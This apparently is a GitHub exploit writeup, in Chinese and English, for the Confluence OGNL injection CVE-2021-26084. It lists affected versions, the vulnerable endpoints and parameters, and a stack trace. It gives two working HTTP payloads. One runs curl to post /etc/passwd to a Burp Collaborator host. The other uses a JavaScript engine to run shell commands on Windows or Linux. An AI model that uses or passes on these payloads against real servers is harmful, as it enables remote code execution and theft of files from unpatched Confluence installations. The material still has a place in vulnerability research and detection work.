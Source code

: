 ### 影响版本
Confluence Server/Data Center
```
    All 4.x.x versions
    All 5.x.x versions
    All 6.0.x versions
    All 6.1.x versions
    All 6.2.x versions
    All 6.3.x versions
    All 6.4.x versions
    All 6.5.x versions
    All 6.6.x versions 
    All 6.7.x versions
    All 6.8.x versions
    All 6.9.x versions
    All 6.10.x versions
    All 6.11.x versions
    All 6.12.x versions 
    All 6.13.x versions before 6.13.23
    All 6.14.x versions 
    All 6.15.x versions 
    All 7.0.x versions
    All 7.1.x versions
    All 7.2.x versions
    All 7.3.x versions
    All 7.4.x versions before 7.4.11
    All 7.5.x versions
    All 7.6.x versions 
    All 7.7.x versions
    All 7.8.x versions
    All 7.9.x versions
    All 7.10.x versions
    All 7.11.x versions before 7.11.6
    All 7.12.x versions before 7.12.5
```

### url
```
URI Path                                   Vulnerable Parameters 
--------------------------------------------------------------------- 
/users/darkfeatures.action                 featureKey 
/users/enabledarkfeature.action            featureKey 
/users/disabledarkfeature.action           featureKey 
/login.action                              token 
/dologin.action                            token 
/signup.action                             token 
/dosignup.action                           token 
/pages/createpage-entervariables.action    queryString, linkCreation 
/pages/doenterpagevariables.action         queryString 
/pages/createpage.action                   queryString 
/pages/createpage-choosetemplate.action    queryString 
/pages/docreatepagefromtemplate.action     queryString 
/pages/docreatepage.action                 queryString 
/pages/createblogpost.action               queryString 
/pages/docreateblogpost.action.            queryString 
/pages/copypage.action                     queryString 
/pages/docopypage.action                   queryString 
/plugins/editor-loader/editor.action       syncRev
```
Ref: https://www.zerodayinitiative.com/blog/2021/9/21/cve-2021-26084-details-on-the-recently-exploited-atlassian-confluence-ognl-injection-bug
其中除两个重要的之外，其他都是需要登录的。需要登录的接口对应的CVE编号是 [CVE-2021-39114](https://jira.atlassian.com/browse/CONFSERVER-68844)


### Payload

```http
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 127.0.0.1:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 215

queryString=lalalala%5cu0027,(linkCreation)(0xd0ff90),%5cu0027lalalala&linkCreation=@java.lang.Runtime@getRuntime().exec('curl -X POST --data-binary @/etc/passwd x.burpcollaborator.net')
```

```http
queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027
```


### Demo
![](imgs/WechatIMG4182.png)
![](imgs/WechatIMG4183.png)
![](imgs/WechatIMG4189.png)
![](imgs/WechatIMG4208.png)
![](imgs/WechatIMG4214.png)
![](imgs/WechatIMG4216.png)
![](imgs/WechatIMG4225.png)


### Trace
```java
...
               at com.opensymphony.webwork.util.SafeExpressionUtil.isSafeExpression(SafeExpressionUtil.java:67)
                at com.opensymphony.webwork.util.OgnlValueFinder$Factory$1.findValue(OgnlValueFinder.java:29)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findValue(WebWorkTagSupport.java:74)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findString(WebWorkTagSupport.java:59)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.evaluateParams(AbstractUITag.java:285)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:213)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at org.apache.velocity.runtime.parser.node.ASTIfStatement.render(ASTIfStatement.java:87)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.views.jsp.ui.template.VelocityTemplateEngine.renderTemplate(VelocityTemplateEngine.java:52)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.mergeTemplate(AbstractUITag.java:427)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:216)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.runtime.directive.Parse.render(Parse.java:263)
                at com.atlassian.confluence.setup.velocity.ProfilingParseDirective.render(ProfilingParseDirective.java:21)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.getRenderedTagBody(ApplyDecoratorDirective.java:179)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.render(ApplyDecoratorDirective.java:154)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.dispatcher.VelocityResult.doExecute(VelocityResult.java:91)
                at com.atlassian.xwork.results.ProfiledVelocityResult.doExecute(ProfiledVelocityResult.java:18)
                at com.atlassian.confluence.setup.webwork.EncodingVelocityResult.doExecute(EncodingVelocityResult.java:43)
                at com.opensymphony.webwork.dispatcher.WebWorkResultSupport.execute(WebWorkResultSupport.java:116)
                at com.opensymphony.xwork.DefaultActionInvocation.executeResult(DefaultActionInvocation.java:263)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:187)
                at com.opensymphony.xwork.interceptor.AroundInterceptor.intercept(AroundInterceptor.java:35)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:165)
...
```


### Ref
 - https://github.com/projectdiscovery/nuclei-templates/commit/3a303530427f974dadc69471d3946ace0a776310
 - https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
 - https://github.com/dorkerdevil/CVE-2021-26084/blob/main/CVE-2021-26084.py
 - https://securitylab.github.com/research/bean-validation-RCE/
 - https://twitter.com/pwntester/status/1433888159083995136
 - https://twitter.com/iamnoooob/status/1431739398782025728
 - [[Atlassian Confluence CVE-2021–26084]::: The other side of bug report!](https://tradahacking.vn/atlassian-confluence-cve-2021-26084-the-other-side-of-bug-bounty-45ed19c814f6)
 - https://bugcrowd.com/disclosures/f76873aa-7acc-4f39-b94d-f066317e7c41/rce-on-confluence-data-center-via-ognl-injection
 - https://www.atlassian.com/blog/rebelutionary/misc/TSS-WebWork2.ppt
 - https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html

### 老漏洞
 - [<= 5.1.4 version OGNL double evaluation in atlassian-xwork](https://confluence.atlassian.com/doc/confluence-security-advisory-2013-08-05-389775711.html)
 - [<= 5.6 version OGNL Double Evaluation Vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2015-01-21-702712783.html)
 - [<= 5.5.1 version ClassLoader Manipulation vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2014-05-21-597557675.html)

### 附录
#### 前置知识
> WebWork 2是OpenSymphony的一个MVC framework，基于XWork。

> WebWork 2后来被叫做Apache Struts2。

![image](https://user-images.githubusercontent.com/30398606/170625977-ed8d7db3-ff84-4da5-83ca-2c1115672d75.png)
![image](https://user-images.githubusercontent.com/30398606/170628471-1203a78b-5a6c-4836-bf2d-1ad9cb3c3776.png)
![image](https://user-images.githubusercontent.com/30398606/170656257-861199b1-9887-400e-80eb-aa7ece309fb4.png)






